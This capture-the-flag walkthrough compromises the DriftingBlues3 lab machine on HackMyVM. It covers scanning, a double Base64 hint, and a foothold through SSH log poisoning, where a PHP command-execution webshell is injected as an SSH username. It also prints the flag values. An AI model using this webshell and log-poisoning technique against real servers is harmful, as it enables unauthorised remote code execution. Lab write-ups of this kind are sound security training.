

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">DriftingBlues3</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.116</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **DriftingBlues3** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the target using Nmap:

```bash
nmap -p- -sC -sV 192.168.56.116
```

#### Open Ports:
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
         robots.txt: 1 disallowed entry: /eventadmins
```

### 2. Directory Scan
We perform a directory brute-force:

```text
[19:05:37] 301 -  317B  - /drupal
[19:05:41] 301 -  321B  - /phpmyadmin
[19:05:42] 200 -   37B  - /robots.txt
[19:05:42] 301 -  317B  - /secret
```

### 3. Multi-Stage Path Discovery

**Step 1 — robots.txt:**
```text
User-agent: *
Disallow: /eventadmins
```

**Step 2 — /eventadmins:**
```html
<p>man there's a problem with ssh</p>
<p>john said "it's poisonous!!! stay away!!!"</p>
<p>also check /littlequeenofspades.html</p>
<p>your buddy, buddyG</p>
```

**Step 3 — /littlequeenofspades.html:**
Inside the page, a white-colored (invisible) paragraph contains a Base64 string:

```text
aW50cnVkZXI/IEwyRmtiV2x1YzJacGVHbDBMbkJvY0E9PQ==
```

Decoding reveals a second Base64 layer:
```text
intruder? L2FkbWluc2ZpeGl0LnBocA==
```

Decoding the second layer:
```text
/adminsfixit.php
```

### 4. Discovering the SSH Log Page
Accessing `/adminsfixit.php` reveals a **live SSH authentication log** being rendered by PHP in real time:

```text
Dec 29 04:53:14 driftingblues sshd[763]: Did not receive identification string from 192.168.56.102
Dec 29 04:53:22 driftingblues sshd[766]: Unable to negotiate with 192.168.56.102...
```

> [!NOTE]
> The note on the page warns: *"it's poisonous"* — hinting that SSH log entries are being included and parsed as PHP on this page.

---

## 🚀 Phase 2: Foothold via SSH Log Poisoning

### 1. Injecting the PHP Webshell
We deliberately attempt an SSH connection using a PHP one-liner as the **username** field. This causes the string to be written into the SSH auth log:

```bash
ssh '<?php system($_POST["cmd"]);?>'@192.168.56.116
```

The failed connection causes the payload to appear in `/var/log/auth.log`, which is then included and parsed by `/adminsfixit.php`.

### 2. Connecting via AntSword
After the payload is injected and rendered by the PHP page, we connect to the webshell using **AntSword** to gain full remote code execution.

> [!WARNING]
> Use a clean, minimal PHP payload. A corrupted payload can break the PHP parser and make the entry point inaccessible.

Through AntSword, we read the user flag and root flag directly:

### 3. User Flag
```bash
cat /home/robertj/user.txt
```
Output: `413fc08db21285b1f8abea99040b0280`

### 4. Root Flag
```bash
cat /root/root.txt
```
Output: `dfb7f604a22928afba370d819b35ec83`
